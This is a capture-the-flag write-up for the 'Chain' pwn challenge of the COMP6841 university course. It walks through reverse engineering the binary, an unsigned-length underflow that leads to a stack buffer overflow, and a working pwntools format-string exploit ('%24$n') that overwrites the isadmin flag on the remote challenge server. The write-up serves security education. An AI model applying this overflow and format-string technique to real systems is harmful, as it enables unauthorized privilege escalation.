 ```yaml
---
title: "Tutor CTF: Chain"
description: (500 points) Pwn Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-11 17:49+11:00
lastModified: 2022-04-11 17:49+11:00
notes: ''
prevPage: 40_tutorctf_bus_buddies
nextPage: 42_tutorctf_alice_and_bob
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 41_tutorctf_chain
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._


## Exploration

We're given just the netcat server IP and port, as well as a single executable `chain`. No source code this time! Let's start by running the script and checking the output:

```term
$ ./chain
How long is your name?
5
Enter your name:
Kevin
Welcome "Kevin
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

So it appears that we can enter in a name length, as well as your actual name. Your name is then printed out, and it appears that we fail some sort of check because we get faced with the message `"Have you tried being a better hacker?"`. A typical thing to try now is a buffer overflow. Let's try entering a super long name:

```term
$ ./chain
How long is your name?
123456
Sorry, get a shorter name
```

Looks like they have a check for the name length. Doing a bit of binary searching, I found the highest length I could enter was 63. Now let's try do a buffer overflow:

```term
$ ./chain
How long is your name?
63
Enter your name:
ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWROGUHWOGUHOWRUGHOWRUGHOWRUGHOWUGHOWURHGOUWHGOWURHGOUWHGOWUHRGOWURHGOWURHGOWURGHOWURGHOWRUGHWORGUHWORGUHWOGHUWORGHUOWRGUHWORGUHOWRUGHOWRUHGOWURGH
Welcome "ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWRO"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like they cut off our name after 62 characters, which is the limit that we set minus 1. Finally, let's try a format strings attack:

```term
$ ./chain
How long is your name?
63
Enter your name:
%x.%x.%x
Welcome "%x.%x.%x
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like it didn't work. It doesn't look like we'll get much more information from this, so let's go ahead and try reverse engineering it.

## Reverse Engineering

Booting up `chain` in Ghidra and doing some variable renaming, we get the following:

![](/blog_posts/41_tutorctf_chain/images/image1.png){width=70%}

So it appears that after entering our name length (stored in `name_len[0]`), they subtract one and use that as an argument for `read()`. However, this is really important, since `name_len[0]` is defined as a unsigned short. That means that if we enter a length of 0, not only does it pass the max length check, it means that after we subtract one from it, our name_length will underflow. That means that we'll able to scan up to 0XFFFF = 65535 characters! Let's try this

```term
$ ./chain
How long is your name?
0
Enter your name:
WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
Welcome "WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�"!
UOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�Have you tried being a better hacker?
```

As we can see, we got far more than 63 characters in the Welcome message. But there's more... Where did the `"Let's see if you are admin..."` message go? It seems to have been replaced with more of the nonsense text from the name we entered. Looking at the Ghidra code, we see that the check admin message was originally stored on the stack. This means that we've now achieved buffer overflow, and have started overwriting the admin message.

But this is critical. We see that on line 56, `printf()` is called directly on the string. That means that admin message string is susceptible to a format string vulnerability attack. Let's start by overwriting the admin message to start with 4B's, and then trying to find where on the stack those B's lie. After a bit of experimentation with pwntools, this is what I came up with

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
buf += f'ABBBB.%24$x'.encode()
conn.sendline(buf)
conn.recvall()
```

Note that I had an extra 'A' at the beginning of the "BBBB" in order to get the bytes to align properly. Sometimes a littl experimentation like this is required. Running this, I got:

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4c bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 42 42 42  42 2e 25 32  34 24 78 0a               │ABBB│B.%2│4$x·│
    0000004c
[+] Receiving all data: Done (147B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x47 bytes:
    b'ABBBB.42424242\n'
    b' you are admin...\n'
    b'Have you tried being a better hacker?\n'
[*] Closed connection to 13.210.180.94 port 12345
```

Notice that at the end, I receive `0x47` bytes, which start with `b'ABBBB.42424242\n'`. The 42's are the hexadecimal representation of 'B', which means that we've managed to find the location of the B's on the stack. From here, all we need to do is replace the B's with the address of `isadmin`, and replace the `%x` with a `%n`. The `%n` will have the effect of writing the number of bytes we've written so far in the printf to the address specified. Note that the exact number of bytes that `%n` will use to write to `isadmin` doesn't matter, as long as it's non zero.

To get the address of `isadmin`, we can use objdump:

```term
$ objdump -t ./chain | grep isadmin
0804a044 g     O .bss	00000004              isadmin
```

I.e. the address is `0x0804a044`. Modifying out python script to the following and running it gets us the flag.

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
# buf += f'ABBBB%24$x\n\x00'.encode()
buf += b'A\x44\xa0\x04\x08%24$n'
conn.sendline(buf)
ret = conn.recvall()
print(ret)
```

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 44 a0 04  08 25 32 34  24 6e 0a                  │AD··│·%24│$n·│
    0000004b
[+] Receiving all data: Done (357B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x119 bytes:
    00000000  41 44 a0 04  08 0a 66 20  79 6f 75 20  61 72 65 20  │AD··│··f │you │are │
    00000010  61 64 6d 69  6e 2e 2e 2e  0a 43 4f 4d  50 36 38 34  │admi│n...│·COM│P684│
    00000020  31 ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │1{RE│DACT│EDRE│DACT│
    00000030  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │EDRE│DACT│EDRE│DACT│
    00000040  ?? ?? ?? ??  ?? ?? 7d 0a  00 00 00 00  00 00 00 00  │EDRE│DA}·│····│····│
    00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000110  00 00 00 00  00 00 00 00  00                        │····│····│·│
    00000119
[*] Closed connection to 13.210.180.94 port 12345
b'\nWelcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\nAD\xa0\x04\x08\nf you are admin...\nCOMP6841{REDACTED}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
> _Note: Bytes replaced with '?', to avoid spoilers._
